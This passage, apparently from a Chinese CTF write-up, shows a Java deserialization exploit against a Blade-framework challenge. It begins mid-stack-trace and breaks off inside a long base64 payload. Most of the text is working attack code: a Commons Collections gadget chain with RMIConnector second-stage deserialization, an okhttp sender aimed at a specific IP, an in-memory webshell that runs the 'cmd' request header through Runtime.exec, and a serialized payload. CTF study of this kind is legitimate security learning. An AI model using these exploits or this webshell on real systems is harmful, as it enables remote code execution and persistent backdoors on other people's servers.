at org.example.Exp.BladeCCPoc.unserialize(BladeCCPoc.java:115)
at org.example.Exp.BladeCCPoc.executeWithRMIConnector(BladeCCPoc.java:90)
at org.example.Exp.BladeCCPoc.main(BladeCCPoc.java:28)
```

但是这个去打远程并不能成功，应该是被 waf 了，所以二次反序列化的部分我们也必须使用 List。

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class BladeCCPoc {
    public static void main(String[] args) throws Exception {
        String payload = generateTemplatesPayload();
        executeWithRMIConnector(payload);
    }

    public static String generateTemplatesPayload() throws Exception {
        byte[] bytecode = ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, chainedTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(certPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), certPath);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getFieldValue(undoManager, "edits");
        edits.add(codeSigner);

        unsafe.putObject(listenerList, unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
                new Object[]{InternalError.class, undoManager});

        setFieldValue(chainedTransformer, "iTransformers", transformers);

        return serialize2Base64(listenerList);
    }

    public static void executeWithRMIConnector(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/" + base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);
        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, invokerTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(rmiConnector));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);

        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(o1);
        unsafe.putObject(list2, unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")), new Object[]{InternalError.class, manager});

        byte[] serialize = serialize(list2);
        unserialize(serialize);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static void unserialize(byte[] bytes) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(bytes));
        objectInputStream.readObject();
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

不出网没问题，在网上看到了有可以直接用的blade框架的内存马，并且是直接反序列化二进制数据，所以直接使用 okhttp3 发包，最终 exp 如下

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import okhttp3.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class BladeCCPoc {
    public static void main(String[] args) throws Exception {
        String payload = generateTemplatesPayload();
        byte[] serializedBytes = executeWithRMIConnector(payload);

        OkHttpClient client = new OkHttpClient();
        MediaType mediaType = MediaType.parse("application/octet-stream");
        RequestBody body = RequestBody.create(mediaType, serializedBytes);
        Request request = new Request.Builder()
                .url("http://154.36.152.109:8888/challenge")
                .post(body)
                .build();
        Response response = client.newCall(request).execute();
        System.out.println("[+] Response: " + response.body().string());
    }

    public static String generateTemplatesPayload() throws Exception {
        byte[] bytecode = ClassPool.getDefault().get(org.example.Exp.blade_shell.class.getName()).toBytecode();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, chainedTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(certPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), certPath);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getFieldValue(undoManager, "edits");
        edits.add(codeSigner);

        unsafe.putObject(listenerList, unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
                new Object[]{InternalError.class, undoManager});

        setFieldValue(chainedTransformer, "iTransformers", transformers);

        return serialize2Base64(listenerList);
    }

    public static byte[] executeWithRMIConnector(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/" + base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);
        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, invokerTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(rmiConnector));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);

        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(o1);
        unsafe.putObject(list2, unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")), new Object[]{InternalError.class, manager});

        return serialize(list2);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

内存马

```java
package org.example.Exp;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.IdentityHashMap;
import java.util.Map;

import com.hellokaton.blade.Blade;
import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.mvc.RouteContext;
import com.hellokaton.blade.mvc.WebContext;
import com.hellokaton.blade.mvc.http.HttpMethod;
import com.hellokaton.blade.mvc.http.HttpResponse;
import com.hellokaton.blade.mvc.route.Route;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.ui.ResponseType;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.hellokaton.blade.mvc.http.Request;

public class blade_shell extends AbstractTranslet {

    static {
        try {
            WebContext context = WebContext.get();
            Blade blade = context.blade();
            // 反射获取 routeMatcher
            Field f = Blade.class.getDeclaredField("routeMatcher");
            f.setAccessible(true);
            RouteMatcher realMatcher = (RouteMatcher) f.get(blade);

            // 构造你的 Route
            Route route = Route.builder()
                    .httpMethod(HttpMethod.GET)
                    .path("/shell")
                    .target(new blade_shell())
                    .targetType(blade_shell.class)
                    .action(blade_shell.class.getDeclaredMethod("exp"))
                    .build();

            Field field = Route.class.getDeclaredField("responseType");
            field.setAccessible(true);
            field.set(route, ResponseType.EMPTY);

            Method addRoute = RouteMatcher.class.getDeclaredMethod("addRoute", Route.class);
            addRoute.setAccessible(true);
            addRoute.invoke(realMatcher, route);

            Method register = RouteMatcher.class.getDeclaredMethod("register");
            register.setAccessible(true);
            register.invoke(realMatcher);

        } catch (InvocationTargetException | NoSuchMethodException |
                 IllegalAccessException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }
    }

    public void exp() throws Exception{
        WebContext context = WebContext.get();
        HttpResponse response = (HttpResponse) context.getResponse();
        Request request = context.getRequest();
        String cmd = request.header("cmd");
        Process process = Runtime.getRuntime().exec(cmd);

        StringBuilder output = new StringBuilder();

        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
             BufferedReader errReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))) {

            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("\n");
            }
            while ((line = errReader.readLine()) != null) {
                output.append(line).append("\n");
            }
        }
        response.body(output.toString());
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

}
```



白哥出的题，需要学太多前置知识了，XD🥵，pom.xml 如下

```java
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>TwiceReadObject</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <cc3.version>3.2.1</cc3.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <blade-core.version>2.1.1.RELEASE</blade-core.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>${cc3.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>com.hellokaton</groupId>
            <artifactId>blade-core</artifactId>
            <version>${blade-core.version}</version>
        </dependency>

        <dependency>
            <groupId>com.squareup.okhttp3</groupId>
            <artifactId>okhttp</artifactId>
            <version>4.12.0</version>
        </dependency>
    </dependencies>
</project>
```

还有就是自己生成base64数据手动打入的，也是我们最常用的手法

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.LazyMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class Test {
    public static void main(String[] args) throws Exception {
        String payload = generateTemplatesPayload();
        String fianlPayload = executeWithRMIConnector(payload);
        System.out.println(fianlPayload);
    }

    public static String generateTemplatesPayload() throws Exception {
        byte[] bytecode = ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, chainedTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);

        X509CertPath certPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(certPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object codeSigner = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), certPath);

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getFieldValue(undoManager, "edits");
        edits.add(codeSigner);

        unsafe.putObject(listenerList, unsafe.objectFieldOffset(listenerList.getClass().getDeclaredField("listenerList")),
                new Object[]{InternalError.class, undoManager});

        setFieldValue(chainedTransformer, "iTransformers", transformers);

        return serialize2Base64(listenerList);
    }

    public static String executeWithRMIConnector(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/" + base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);
        ArrayList<Object> list = new ArrayList<>();
        List decorate1 = TransformedList.decorate(list, invokerTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(rmiConnector));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);

        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);

        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(o1);
        unsafe.putObject(list2, unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")), new Object[]{InternalError.class, manager});

        return serialize2Base64(list2);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

进行反序列化

```java
package org.example.Exp;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws Exception {
        String s = "rO0ABXNyACNqYXZheC5zd2luZy5ldmVudC5FdmVudExpc3RlbmVyTGlzdLE2xn2E6tZEAwAAeHB0ABdqYXZhLmxhbmcuSW50ZXJuYWxFcnJvcnNyABxqYXZheC5zd2luZy51bmRvLlVuZG9NYW5hZ2Vy4ysheUxxykICAAJJAA5pbmRleE9mTmV4dEFkZEkABWxpbWl0eHIAHWphdmF4LnN3aW5nLnVuZG8uQ29tcG91bmRFZGl0pZ5QulPblf0CAAJaAAppblByb2dyZXNzTAAFZWRpdHN0ABJMamF2YS91dGlsL1ZlY3Rvcjt4cgAlamF2YXguc3dpbmcudW5kby5BYnN0cmFjdFVuZG9hYmxlRWRpdAgNG47tAgsQAgACWgAFYWxpdmVaAAtoYXNCZWVuRG9uZXhwAQEBc3IAEGphdmEudXRpbC5WZWN0b3LZl31bgDuvAQMAA0kAEWNhcGFjaXR5SW5jcmVtZW50SQAMZWxlbWVudENvdW50WwALZWxlbWVudERhdGF0ABNbTGphdmEvbGFuZy9PYmplY3Q7eHAAAAAAAAAAAXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAGRzcgAYamF2YS5zZWN1cml0eS5Db2RlU2lnbmVyXqL6Zsshmq0CAAJMAA5zaWduZXJDZXJ0UGF0aHQAHUxqYXZhL3NlY3VyaXR5L2NlcnQvQ2VydFBhdGg7TAAJdGltZXN0YW1wdAAZTGphdmEvc2VjdXJpdHkvVGltZXN0YW1wO3hwc3IAK3N1bi5zZWN1cml0eS5wcm92aWRlci5jZXJ0cGF0aC5YNTA5Q2VydFBhdGhFP1T3TEUgtAIAAUwABWNlcnRzdAAQTGphdmEvdXRpbC9MaXN0O3hyABtqYXZhLnNlY3VyaXR5LmNlcnQuQ2VydFBhdGhUN4mXfdPl+wIAAUwABHR5cGV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHBzcgAsb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmxpc3QuTGF6eUxpc3ToSpYmWppU8gIAAUwAB2ZhY3Rvcnl0AChMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL0ZhY3Rvcnk7eHIARW9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5saXN0LkFic3RyYWN0U2VyaWFsaXphYmxlTGlzdERlY29yYXRvciVC5Cn2jXtrAwAAeHBzcgAzb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmxpc3QuVHJhbnNmb3JtZWRMaXN0DvL1W62zYVUCAAB4cgA/b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmNvbGxlY3Rpb24uVHJhbnNmb3JtZWRDb2xsZWN0aW9ueKFA96RzDpoCAAFMAAt0cmFuc2Zvcm1lcnQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHIAUW9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5jb2xsZWN0aW9uLkFic3RyYWN0U2VyaWFsaXphYmxlQ29sbGVjdGlvbkRlY29yYXRvcla8EBO7pqE0AwAAeHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHh4c3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnZva2VyVHJhbnNmb3JtZXKH6P9re3zOOAIAA1sABWlBcmdzcQB+AAlMAAtpTWV0aG9kTmFtZXEAfgAUWwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHB0AAdjb25uZWN0cHhzcgA3b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50RmFjdG9yec8kCrdtWyoIAgABTAAJaUNvbnN0YW50dAASTGphdmEvbGFuZy9PYmplY3Q7eHBzcgAoamF2YXgubWFuYWdlbWVudC5yZW1vdGUucm1pLlJNSUNvbm5lY3RvcgtXtviCJOLpAwACTAANam14U2VydmljZVVSTHQAJ0xqYXZheC9tYW5hZ2VtZW50L3JlbW90ZS9KTVhTZXJ2aWNlVVJMO0wACXJtaVNlcnZlcnQAJ0xqYXZheC9tYW5hZ2VtZW50L3JlbW90ZS9ybWkvUk1JU2VydmVyO3hwc3IAJWphdmF4Lm1hbmFnZW1lbnQucmVtb3RlLkpNWFNlcnZpY2VVUkxxbZ+gXZJtHAIABEkABHBvcnRMAARob3N0cQB+ABRMAAhwcm90b2NvbHEAfgAUTAAHdXJsUGF0aHEAfgAUeHAAAAAAdAAAdAADcm1pdBPKL3N0dWIvck8wQUJYTnlBQ05xWVhaaGVDNXpkMmx1Wnk1bGRtVnVkQzVGZG1WdWRFeHBjM1JsYm1WeVRHbHpkTEUyeG4yRTZ0WkVBd0FBZUhCMEFCZHFZWFpoTG14aGJtY3VTVzUwWlhKdVlXeEZjbkp2Y25OeUFCeHFZWFpoZUM1emQybHVaeTUxYm1SdkxsVnVaRzlOWVc1aFoyVnk0eXNoZVV4eHlrSUNBQUpKQUE1cGJtUmxlRTltVG1WNGRFRmtaRWtBQld4cGJXbDBlSElBSFdwaGRtRjRMbk4zYVc1bkxuVnVaRzh1UTI5dGNHOTFibVJGWkdsMHBaNVF1bFBibGYwQ0FBSmFBQXBwYmxCeWIyZHlaWE56VEFBRlpXUnBkSE4wQUJKTWFtRjJZUzkxZEdsc0wxWmxZM1J2Y2p0NGNnQWxhbUYyWVhndWMzZHBibWN1ZFc1a2J5NUJZbk4wY21GamRGVnVaRzloWW14bFJXUnBkQWdORzQ3dEFnc1FBZ0FDV2dBRllXeHBkbVZhQUF0b1lYTkNaV1Z1Ukc5dVpYaHdBUUVCYzNJQUVHcGhkbUV1ZFhScGJDNVdaV04wYjNMWmwzMWJnRHV2QVFNQUEwa0FFV05oY0dGamFYUjVTVzVqY21WdFpXNTBTUUFNWld4bGJXVnVkRU52ZFc1MFd3QUxaV3hsYldWdWRFUmhkR0YwQUJOYlRHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN2VIQUFBQUFBQUFBQUFYVnlBQk5iVEdwaGRtRXViR0Z1Wnk1UFltcGxZM1E3a001WW54QnpLV3dDQUFCNGNBQUFBR1J6Y2dBWWFtRjJZUzV6WldOMWNtbDBlUzVEYjJSbFUybG5ibVZ5WHFMNlpzc2htcTBDQUFKTUFBNXphV2R1WlhKRFpYSjBVR0YwYUhRQUhVeHFZWFpoTDNObFkzVnlhWFI1TDJObGNuUXZRMlZ5ZEZCaGRHZzdUQUFKZEdsdFpYTjBZVzF3ZEFBWlRHcGhkbUV2YzJWamRYSnBkSGt2VkdsdFpYTjBZVzF3TzNod2MzSUFLM04xYmk1elpXTjFjbWwwZVM1d2NtOTJhV1JsY2k1alpYSjBjR0YwYUM1WU5UQTVRMlZ5ZEZCaGRHaEZQMVQzVEVVZ3RBSUFBVXdBQldObGNuUnpkQUFRVEdwaGRtRXZkWFJwYkM5TWFYTjBPM2h5QUJ0cVlYWmhMbk5sWTNWeWFYUjVMbU5sY25RdVEyVnlkRkJoZEdoVU40bVhmZFBsK3dJQUFVd0FCSFI1Y0dWMEFCSk1hbUYyWVM5c1lXNW5MMU4wY21sdVp6dDRjSEJ6Y2dBc2IzSm5MbUZ3WVdOb1pTNWpiMjF0YjI1ekxtTnZiR3hsWTNScGIyNXpMbXhwYzNRdVRHRjZlVXhwYzNUb1NwWW1XcHBVOGdJQUFVd0FCMlpoWTNSdmNubDBBQ2hNYjNKbkwyRndZV05vWlM5amIyMXRiMjV6TDJOdmJHeGxZM1JwYjI1ekwwWmhZM1J2Y25rN2VISUFSVzl5Wnk1aGNHRmphR1V1WTI5dGJXOXVjeTVqYjJ4c1pXTjBhVzl1Y3k1c2FYTjBMa0ZpYzNSeVlXTjBVMlZ5YVdGc2FYcGhZbXhsVEdsemRFUmxZMjl5WVhSdmNpVkM1Q24yalh0ckF3QUFlSEJ6Y2dBemIzSm5MbUZ3WVdOb1pTNWpiMjF0YjI1ekxtTnZiR3hsWTNScGIyNXpMbXhwYzNRdVZISmhibk5tYjNKdFpXUk1hWE4wRHZMMVc2MnpZVlVDQUFCNGNnQS9iM0puTG1Gd1lXTm9aUzVqYjIxdGIyNXpMbU52Ykd4bFkzUnBiMjV6TG1OdmJHeGxZM1JwYjI0dVZISmhibk5tYjNKdFpXUkRiMnhzWldOMGFXOXVlS0ZBOTZSekRwb0NBQUZNQUF0MGNtRnVjMlp2Y20xbGNuUUFMRXh2Y21jdllYQmhZMmhsTDJOdmJXMXZibk12WTI5c2JHVmpkR2x2Ym5NdlZISmhibk5tYjNKdFpYSTdlSElBVVc5eVp5NWhjR0ZqYUdVdVkyOXRiVzl1Y3k1amIyeHNaV04wYVc5dWN5NWpiMnhzWldOMGFXOXVMa0ZpYzNSeVlXTjBVMlZ5YVdGc2FYcGhZbXhsUTI5c2JHVmpkR2x2YmtSbFkyOXlZWFJ2Y2xhOEVCTzdwcUUwQXdBQWVIQnpjZ0FUYW1GMllTNTFkR2xzTGtGeWNtRjVUR2x6ZEhpQjBoMlp4MkdkQXdBQlNRQUVjMmw2Wlhod0FBQUFBSGNFQUFBQUFIaDRjM0lBT205eVp5NWhjR0ZqYUdVdVkyOXRiVzl1Y3k1amIyeHNaV04wYVc5dWN5NW1kVzVqZEc5eWN5NURhR0ZwYm1Wa1ZISmhibk5tYjNKdFpYSXd4NWZzS0hxWEJBSUFBV